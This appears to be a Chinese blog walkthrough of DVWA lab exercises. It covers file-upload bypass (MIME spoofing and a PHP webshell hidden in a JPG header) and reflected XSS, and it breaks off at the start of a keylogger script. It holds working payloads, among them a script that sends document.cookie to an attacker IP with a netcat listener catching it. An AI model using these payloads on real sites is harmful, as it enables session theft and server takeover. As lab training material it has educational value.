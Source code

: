 　　场景设想：如果一个文件原本是1.php，我手动改成1.jpg那么本质上来说它却是php文件，从我们肉眼上来说却是jpg。能骗到人，无法骗到我mimetype(txt以及其衍生文件.json等没有文件头，对这几个文件类型无效)。
　　先看看php类型的
　　![JUMhpF.png](https://s1.ax1x.com/2020/04/22/JUMhpF.png)
　　你说欺骗不了我mimetype，我这就试试将后缀名改为jpg格式
　　![JUM701.png](https://s1.ax1x.com/2020/04/22/JUM701.png)
　　此时mimetype笑了，所以利用mimetype命令可以很轻松的查看文件类型，这里查出png格式的类型为image/png。
　　回到burp，如下图更改数据
　　![JUlwrj.png](https://s1.ax1x.com/2020/04/22/JUlwrj.png)
　　发包后出现，上传失败
　　![JUVIaD.png](https://s1.ax1x.com/2020/04/22/JUVIaD.png)
　　这就很尴尬了，是我操作有毛病吗，后来我尝试真正上传一张png图片的时候，确实不行。直到上传了一张jpg才发现可以。果断将格式改为image/jpeg
　　![JdW0mD.png](https://s1.ax1x.com/2020/04/23/JdW0mD.png)
　　成功，还是看看源码吧
　　![JdW57Q.png](https://s1.ax1x.com/2020/04/23/JdW57Q.png)
　　只允许jpg并且要小于100000(我们仍未知道那天所限制的文件大小的单位)
　　high级别，既然使用最高级别了，哪就使用杀手锏了吧。一般这种都会有后缀名判断加Content-Type，还有文件内容判断。
　　先试试改Content-Type和后缀名
　　![Jd410S.png](https://s1.ax1x.com/2020/04/23/Jd410S.png)
　　发现是能直接上传，然后通过菜刀连接也能成功连上
　　![Jd4gpR.png](https://s1.ax1x.com/2020/04/23/Jd4gpR.png)
　　这里必须还要配合文件解析漏洞，所以我们的php即使是jpg格式它还是php马。
　　你以为文件上传就这样结束了吗，当然没有，这次将一句话木马放在一个真正的jpg文件中。
　　![JdopSs.png](https://s1.ax1x.com/2020/04/23/JdopSs.png)
　　先上传一个真正的jpg文件，然后删除掉图片内容数据只保留前3行即可，插入一句话木马，改后缀名。因为前几行的数据是说明了此文件的类型，mimetype其实就是判断前几行的数据可知此文件的具体类型的。
　　![JdTIKI.png](https://s1.ax1x.com/2020/04/23/JdTIKI.png)
　　放包后成功上传，文件上传这一块知识点远远不止这点。。
　　我遇到一个真实的案例就是不管你上传的是什么后缀名的图片类型，如1.php.jpg 1.php.php.png 啥的反正不管你最后怎么改后缀。最后上传都变成xx.png，这也是防文件上传漏洞的一种方法。

### XSS reflected
　　xss(跨站脚本攻击)，这一块的知识点是JavaScript的利用后面简称js。还是先说说原理，用户在像什么搜索栏，提交栏中输入恶意的js代码，注入进前端代码中，从而触发攻击。
　　low级别，emmm，我知道你懵逼，还是看案例，先输入一个hello后，查看burp的请求历史记录
　　![Jdq4Ff.png](https://s1.ax1x.com/2020/04/23/Jdq4Ff.png)
　　![JdqLmn.png](https://s1.ax1x.com/2020/04/23/JdqLmn.png)
　　hello原封不动的在这对<<span>pre><</span>/pre>标签中，如果你对js有一定的了解，那么下面一段代码你肯定再熟悉不过了，这次提交框输入<<span>script>alert('xss')<</span>/script>。此语句的意思是弹出一个提醒框，内容为xss，提交后
　　![JdLhu9.png](https://s1.ax1x.com/2020/04/23/JdLhu9.png)
　　还是看刚刚提交的请求历史包
　　![JdLvDA.png](https://s1.ax1x.com/2020/04/23/JdLvDA.png)
　　发现它将这段我们提交的内容，当成html里面的语句来执行了，这就是xss，所以js就让我们在网页弹一个这个玩意吗？no，no这只是js语言的冰山一角而已，别小看js，曾经有个大佬用js写了一个操作系统。
　　言归正传，在这里先试试重定向页面。poc：<<span>script>window.location="https://<span>w</span>ww.baidu.com"<</span>/script>,提交后就会跳转到百度。
　　获取cookie信息演示，先kali侦听80端口，nc -lvp 80，然后提交<<span>script>new Image().src="http://<span></span>攻击者ip地址/c.php?output="+document.cookie;<</span>/script>，如我kali的ip地址是192.168.2.161中间那段攻击者ip地址就是192.168.2.161。提交后。
　　![Jwp5tA.png](https://s1.ax1x.com/2020/04/23/Jwp5tA.png)
　　cookie信息一览无遗。
　　最后演示键盘记录器，创建3个文件分别为key.js keylog.txt keylogger.php都放在kali中的/var/www/html
　　![JwiU3R.png](https://s1.ax1x.com/2020/04/23/JwiU3R.png)
　　key.js
```javascript
document.onkeypress = function(evt){
```